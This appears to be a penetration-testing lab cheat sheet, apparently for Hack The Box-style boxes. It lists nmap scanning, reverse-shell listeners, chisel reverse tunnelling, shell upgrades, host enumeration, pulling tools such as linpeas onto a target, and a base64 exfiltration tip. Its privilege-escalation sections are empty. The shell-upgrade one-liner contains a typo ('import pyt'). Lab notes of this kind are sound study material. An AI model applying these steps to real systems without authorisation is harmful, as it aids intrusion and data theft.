 # PT𓀮EH

```sh
# VM host:

# kali server:
10.10.14.69

# vuln boxes:
10.10.10.198
```

# toc

<!-- vim-markdown-toc GFM -->

  * [enumeration](#enumeration)
  * [foothold and pivot](#foothold-and-pivot)
    * [kali](#kali)
    * [linux](#linux)
    * [windows](#windows)
  * [priviledge escalation](#priviledge-escalation)
    * [linux](#linux-1)
    * [windows](#windows-1)
* [bonus](#bonus)
  * [oneliners](#oneliners)
  * [kali config](#kali-config)
  * [kali tips](#kali-tips)
  * [basics](#basics)
    * [windows](#windows-2)
    * [linux](#linux-2)

<!-- vim-markdown-toc -->

## enumeration

<details><summary><input type=checkbox> port scanning</summary>

```sh
nmap -v $host | tee 00.nmap # fast initial scan.

```

</details>

## foothold and pivot

### kali

<details> <summary><input type=checkbox> serving files</summary>

```sh
# via webserver:
python3 -m http.server 80

# via samba:
impacket-smbserver -smb2server share .
```

</details>

<details><summary><input type=checkbox> reverse shells and port bindings</summary>

```sh
# netcat
rlwrap nc -lnvp 42424

# chisel
# start the client first:
chisel client -v 10.10.14.69 R:8888:127.0.0.1:8888
# local: 8888
# remote: 127.0.0.1:8888
chisel server -v -p 12345 --reverse
# connect with:

# plink
```

</details>


### linux

<details><summary><input type=checkbox> information gathering</summary>


```sh
id # user and groups.
ps -p $$
ip a # or ifconfig.
netstat -tulpen # connections.
lsblk # devices.
locate / # list of probably every file on the system.
# depending on under which user updatedb ran.
```

</details>

<details><summary><input type=checkbox> downloading files</summary>


```sh
# linux download:
wget $h/file
curl $h/file -so file
```

</details>

<details><summary><input type=checkbox> info gathering with external tools</summary>


```sh
./linpeas.sh -a
```

</details>

### windows

<details><summary><input type=checkbox> information gathering</summary>

```sh
dir /q
whoami /all
systeminfo
set
tasklist
ipconfig /all
netstat -nao | findstr 127 | findstr LISTEN
```

</details>

<details><summary><input type=checkbox> downloading files</summary>


```sh
# powershell:
iwr hostname/file.exe -outf file.exe
# long version:
Invoke-WebRequest hostname/file.exe -OutFile file.exe
```

</details>

<details><summary><input type=checkbox> info gathering with external tools</summary>


```sh
linpeas.exe
linpeas.bat # if exe fails.
```

</details>

## priviledge escalation

### linux

### windows

# bonus
## oneliners

<details><summary></summary>

```sh
# upgrade shell:
python -c 'import pyt;pty.spawn("bash")'

# fix environment:
export TERM=linux

# listen for incoming connection:
nc -nvlp 1234

# logging a reverse shell locally:
script # stop with ^D. breaks in vi. finicky.

# get a temp dir:
cd $(mktemp -d)

# get local connections:
netstat -tulpen
```

</details>

## kali config

<details><summary></summary>

```sh
# pip2 for new Kalis:
curl -s https://bootstrap.pypa.io/get-pip.py | python2
pip2 install requests colorama # for the exploit above.
pip2 install xlrd # for windows exploit suggester.
apt install ncdu

pip3 install cve_searchsploit # https://github.com/andreafioraldi/cve_searchsploit
# update it:
cve_searchsploit -u

cd /opt
git clone 'https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git'
cd Windows-Exploit-Suggester
python windows-exploit-suggester.py --update
python windows-exploit-suggester.py --help

# chisel
cd /opt
wget 'https://github.com/jpillora/chisel/releases/download/v1.7.1/chisel_1.7.1_windows_386.gz'
wget 'https://github.com/jpillora/chisel/releases/download/v1.7.1/chisel_1.7.1_linux_386.gz'
gunzip chisel*
mv chisel*windows* chisel.exe
```

</details>

## kali tips

<details><summary></summary>

* ranger disables previews for root (enable them on a by case basis with `zp`)

</details>

## basics
### windows

<details><summary></summary>

```sh
# windows get cmd.exe help:
help

# powershell
cd $env:tmp

# cmd.exe
cd %tmp%
```

</details>

### linux

<details open>
<summary></summary>

```sh
umask -S # file creation mask.
# help umask (linux)

sudo -l # list allowed and forbidden commands.

sudo -u kali whoami # run whoami as kali.

base64 # great for exfiltration without inet.
# then just copy the text from the terminal.
# -d to decode it again.
# use pipes or pass a filename.

strings -e # different encoding options.

find . # get list of all files in dir.
# great for lot's of files/folders with spaces
# where autocompletion is broken.

xdotool # fake keyboard mouse in X.
```

</details>
